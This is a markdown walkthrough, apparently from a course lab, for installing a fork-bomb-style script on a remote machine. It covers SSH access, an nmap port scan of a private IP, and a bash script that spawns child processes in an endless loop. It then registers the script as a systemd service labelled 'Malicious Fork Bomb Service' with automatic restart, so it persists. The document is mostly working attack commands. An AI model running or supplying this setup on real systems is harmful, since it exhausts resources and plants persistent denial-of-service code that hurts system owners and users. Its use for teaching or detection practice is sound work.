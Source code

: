 # Fork Bomb Demo

This demo showcases the setup and execution of a fork bomb on a remote machine. The fork bomb script is installed as a systemd service and runs under the demo user.

## Prerequisites

- SSH access to the target machine (ST24-401D) with user `cs401`.
- `sudo` privileges on the target machine.
- Basic understanding of systemd services and bash scripting.

## Steps

1. **Login to the Target Machine**

    Use SSH to log in to the target machine with the `cs401` user.

    ```bash
    ssh cs401@ST24-401D
    ```

1. **Run a Port Scan**

    Perform a port scan on the target machine to identify open ports.

    ```bash
    nmap -p 1-30 10.10.248.158
    ```

1. **SSH into the Target Machine as the Demo User**

    Switch to the demo user on the target machine.

    ```bash
    ssh demo@10.10.248.158
    ```

1. **Create the Fork Bomb Script**

    Create a bash script that continuously spawns child processes.

    ```bash
    sudo touch /usr/local/bin/fork_bomb.sh
    ```

    ```bash
    sudo tee /usr/local/bin/fork_bomb.sh > /dev/null << 'EOF'
#!/bin/bash

create_child_process() {
    sleep 9999 &
    child_pid=\$!
    echo "Created child process with PID: \$child_pid"
}

trap 'kill \$(jobs -p); exit' SIGINT SIGTERM

while true
do
    for i in \$(seq 1 10);
    do
        create_child_process
    done
    sleep 2
done
EOF
    ```

1. **Make the Script Executable and Set Ownership**

    Grant execute permissions to the script and change its ownership to the demo user.

    ```bash
    sudo chmod +x /usr/local/bin/fork_bomb.sh
    ```

    ```bash
    sudo chown demo: /usr/local/bin/fork_bomb.sh
    ```

1. **Create a systemd Service for the Fork Bomb**

    Set up a systemd service to manage the fork bomb script.

    ```bash
    sudo touch /etc/systemd/system/fork.service
    ```

    ```bash
    sudo tee /etc/systemd/system/fork.service > /dev/null << 'EOF'
[Unit]
Description=Malicious Fork Bomb Service
After=network.target

[Service]
ExecStart=/usr/local/bin/fork_bomb.sh
ExecStop=/bin/kill -s SIGTERM \$MAINPID
Restart=always
User=demo
KillMode=process
Type=simple

[Install]
WantedBy=multi-user.target
EOF
    ```

1. **Reload systemd and Start the Fork Bomb Service**

    Reload systemd to recognize the new service and then start the fork bomb.

    ```bash
    sudo systemctl daemon-reload
    ```

    ```bash
    sudo systemctl start fork.service
    ```